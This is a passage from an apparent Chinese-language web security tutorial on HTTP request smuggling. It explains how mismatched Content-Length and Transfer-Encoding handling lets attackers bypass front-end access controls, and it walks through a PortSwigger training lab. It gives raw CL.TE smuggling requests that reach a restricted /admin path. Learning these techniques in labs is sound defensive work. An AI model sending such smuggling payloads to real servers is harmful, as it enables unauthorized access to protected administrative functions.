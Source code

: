 ```plain
```

[![](assets/1704418275-df673a7d4fefaa9591ab390afcfd69b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154907-92e77618-aa0c-1.png)  
第二个包请求后会给一个 404 响应  
[![](assets/1704418275-e79a74cdce1762d80b739edc5ed42e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154925-9d76c49e-aa0c-1.png)  
随后成功解题：

[![](assets/1704418275-02e6faa0a55ec2ea81ed9ef1028af1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154941-a6fa355a-aa0c-1.png)

## 走私绕过

### 前端限制

假设应用程序使用前端服务器来实现访问控制限制，仅当用户被授权访问所请求的 URL 时才转发请求，然后后端服务器接受每个请求，而不做进一步的检查，在这种情况下可以利用 HTTP 请求走私漏洞通过请求走私访问受限制的 URL 从而绕过访问控制，假如允许当前用户访问/home，但不允许访问/admin，他们可以使用以下请求走私攻击绕过这一限制：

```plain
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对/home 的，因此请求被转发到后端服务器，但是后端服务器看到一个对/home 的请求和一个对/admin 的请求，它 (像往常一样) 假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限  
下面我们介绍一下具体的绕过方式：

#### CL.TE Bypass

靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  
绕过演示：  
Step 1：直接访问上面的链接，点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-a55b5cfeab63a556f2fef1b239339bff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155020-be7c67d4-aa0c-1.png)  
Step 2：访问/admin 路径会发现被拦截  
[![](assets/1704418275-aa156cf57d291e1851220044490d0a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155035-c71da0ec-aa0c-1.png)  
Step 3：随后我们构造如下请求数据包并发送两次尝试请求走私

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
